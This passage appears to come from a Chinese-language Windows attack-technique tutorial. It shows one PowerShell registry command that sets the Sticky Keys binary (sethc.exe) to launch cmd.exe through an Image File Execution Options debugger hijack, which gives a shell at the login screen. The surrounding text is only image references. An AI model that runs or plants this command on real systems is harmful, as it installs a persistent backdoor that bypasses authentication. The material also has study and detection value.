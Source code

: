 ![](./images/14.png)

利用这个性质，修改注册表，使用粘滞键来打`IFEO`劫持。

```powershell
reg add "HKLM\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Image File Execution Options\sethc.exe" /v Debugger /t REG_SZ /d "C:\Windows\System32\cmd.exe"
```

![](./images/13.png)